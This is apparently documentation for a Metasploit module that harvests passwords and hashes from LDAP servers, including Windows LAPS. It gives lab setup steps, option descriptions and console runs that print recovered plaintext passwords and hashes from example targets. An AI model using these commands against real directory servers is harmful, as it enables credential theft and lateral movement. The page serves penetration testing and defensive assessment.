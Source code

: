 ## Vulnerable Application

### Description

This module will gather passwords and password hashes from a target LDAP server via multiple techniques including
Windows LAPS.

### Setup (OpenLDAP via Docker)

Tested in the wild.

You may eventually setup an intentionally insecure OpenLDAP server in docker.
The below OpenLDAP server does not have any ACL, therefore the hashPassword
attributes are readable by anonymous clients.

```
$ git clone https://github.com/HynekPetrak/bitnami-docker-openldap.git
$ cd bitnami-docker-openldap
$ docker-compose up -d
Creating bitnami-docker-openldap_openldap_1 ... done
```

```
msf auxiliary(gather/ldap_passwords) > rerun ldap://:@127.0.0.1:1389
[*] Reloading module...
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovered base DN: dc=example,dc=org
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=example,dc=org
[+] Credentials (password) found in userpassword: user01:password1
[+] Credentials (password) found in userpassword: user02:password2
[*] Found 2 entries and 2 credentials in 'dc=example,dc=org'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/ldap_passwords) >
```

### Setup (Windows LAPSv1)
1. Start with a Windows Domain Controller
2. Install all the programs from the applicable binary from https://www.microsoft.com/en-us/download/details.aspx?id=46899
3. Make sure the user account is a Schema Admin, reboot after joining the group
4. Set the Group Policy settings as noted in Section 3 of the “LAPS_OperationsGuide.docx” file
5. Run the UI as noted in Section 4, the LDAP attributes should be populated at this point

### Setup (Windows LAPSv2)
1. Start with a Windows Domain Controller that has the April 2023 security update installed
2. Follow the instructions from https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-scenarios-windows-server-active-directory

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USER_ATTR

LDAP attribute to that contains the username. Defaults to the first attribute that exists in the search order
`sAMAccountName` (Active Directory), `uid` (OpenLDAP), `dn`.

### PASS_ATTR

LDAP attribute to take the password data from. This option will be added to the array of options the module always
searches for.

## Scenarios

### Avaya Communication Manager via anonymous bind

```
msf auxiliary(gather/ldap_passwords) > options

Module options (auxiliary/gather/ldap_passwords):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   BASE_DN                        no        LDAP base DN if you already have it
   PASS_ATTR     userPassword     no        Additional LDAP attribute(s) that contain password hashes
   READ_TIMEOUT  600              no        LDAP read timeout in seconds
   SSL           false            no        Enable SSL on the LDAP connection
   USER_ATTR                      no        LDAP attribute(s), that contains username


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LDAPDomain                     no        The domain to authenticate to
   LDAPPassword                   no        The password to authenticate with
   LDAPUsername                   no        The username to authenticate with
   RHOSTS                         no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         389              no        The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf auxiliary(gather/ldap_passwords) > set RHOSTS 192.0.2.1
RHOSTS => 192.0.2.1

msf auxiliary(gather/ldap_passwords) > run
[*] Discovered base DN: dc=vsp
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=vsp
[+] Credentials found: cust:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: admin:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Found 2 entries and 2 credentials in 'dc=vsp'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### NASDeluxe - NAS with Samba LM/NTLM hashes

```
msf auxiliary(gather/ldap_passwords) > set RHOSTS 192.0.2.1
RHOSTS => 192.0.2.1

msf auxiliary(gather/ldap_passwords) > run
[*] Running module against 192.0.2.1

[*] Discovered base DN: dc=server,dc=nas
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=server,dc=nas
[+] Credentials found: admin:209C6174DA490CAEB422F3FA5A7AE634
[+] Credentials found: joe:58E8C758A4E67F34EF9C40944EB5535B
[*] Found 2 entries and 2 credentials in 'dc=server,dc=nas'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Windows Server 2019 - LAPSv2 with Encryption
```
msf auxiliary(gather/ldap_passwords) > run ldap://msflab.local;smcintyre:Password1!@192.0.2.10
[*] Discovered base DN: DC=msflab,DC=local
[*] The target LDAP server is an Active Directory Domain Controller.
[*] Searching base DN: DC=msflab,DC=local
[+] Credentials (password) found in mslaps-encryptedpassword: Administrator:m8L3A.LcZ9!lnT (expires: 2025-03-08 17:22:57 UTC)
[*] Found 1 entries and 1 credentials in 'DC=msflab,DC=local'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/ldap_passwords) >
```
